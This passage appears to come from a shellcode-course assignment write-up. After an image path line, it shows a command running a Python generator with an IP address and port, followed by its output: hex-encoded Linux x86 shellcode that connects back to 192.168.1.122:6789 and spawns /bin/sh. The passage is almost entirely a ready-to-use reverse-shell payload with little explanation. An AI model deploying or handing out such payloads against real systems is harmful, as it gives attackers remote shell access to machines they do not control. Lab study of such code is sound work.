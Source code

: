 ```
```

**Generating shellcode that can used in exploit or C program**
````
[sengen@sengen assignment2]$ python create_rev_shell.py -i 192.168.1.122 -p 6789
\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x03\x68\xc0\xa8\x01\x7a\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc9\x89\xfb\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80
````
